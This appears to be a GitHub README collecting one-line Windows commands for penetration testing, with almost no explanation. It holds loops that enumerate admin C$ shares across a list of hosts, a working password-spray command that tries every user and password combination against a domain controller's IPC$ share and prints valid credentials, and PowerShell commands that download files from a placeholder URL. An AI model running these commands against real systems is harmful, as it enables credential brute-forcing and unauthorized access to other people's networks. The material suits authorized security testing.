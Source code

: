 # oneliners
One line DOS commands useful during pentests

for /f %a in (hosts.txt) do dir /b /s \\\\%a\\C$\\Users\\file*

for /f %a in (hosts.txt) do @if exist \\\\%a\\C$\\Users\\ echo users found on %a

password spray
@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\DOMAINCONTROLLER\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\DOMAINCONTROLLER\IPC$ > NUL 

invoke-webrequest -uri url -outfile filename
(New-Object System.Net.WebClient).DownloadFile("url","output")

for i in (cat filename); do echo $i; done





